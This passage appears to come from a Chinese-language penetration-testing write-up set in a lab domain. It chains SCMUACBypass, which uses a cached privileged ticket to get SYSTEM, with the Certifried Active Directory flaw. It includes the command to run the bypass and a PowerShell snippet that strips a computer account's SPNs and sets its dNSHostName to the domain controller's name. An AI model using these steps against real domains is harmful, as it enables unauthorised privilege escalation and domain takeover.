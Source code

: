 SCMUACBypass 的原理大概是通过一系列 Tricks 申请到本地计算机账户的特权 ST 票据，然后使用该 ST 票据对本地服务管理器（SCM）进行身份验证并创建一个新服务，以启动 SYSTEM 权限的进程。关于 SCMUACBypass 的更多细节，可以阅读 [*Bypassing UAC in the most Complex Way Possible!*](https://www.tiraniddo.dev/2022/03/bypassing-uac-in-most-complex-way.html) 这篇文章。本文我们只是借用 SCMUACBypass 中的部分功能，通过已缓存的特权 ST 来创建系统服务。

直接在拥有特权 ST 票据的的会话中运行 SCMUACBypass.exe 即可成功获取本地系统权限，如下图所示。

```console
C:\Users\Marcus\Desktop> SCMUACBypass.exe
```

![](/assets/posts/2022-05-19-certifried-combined-with-krbrelay-for-domain-privilege-escalation/image-20220519082153438.png)

## Domain Escalation

到目前为止，我们已经实现了本地提权，接下来便可以对 `WIN10-CLIENT1$` 账户的 `dNSHostName` 和 `servicePrincipalName` 属性值进行修改，使其具备 Certifried 漏洞的利用条件。

### Certifried

在提升的权限下，我们可以使用 PowerShell ADSI Adapter 来删除 `WIN10-CLIENT1$` 账户的 `servicePrincipalName` 并将其 `dNSHostName` 修改为 DC 的 DNS 主机名（属性的原始值被保存在 `$spn` 和 `$dns` 变量中，以供后续的恢复。）：

```powershell
$searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]'')
$searcher.filter = '(&(objectClass=computer)(sAMAccountName={0}$))' -f $Env:ComputerName
$obj = [ADSI]$searcher.FindAll().Path
$spn = @()
$obj.servicePrincipalName | % { $spn += $_ }
$dns = $obj.dNSHostName.ToString()     
$spn | % { $obj.servicePrincipalName.Remove($_) }
$obj.dNSHostName = "dc01.pentest.com"
$obj.SetInfo()
```

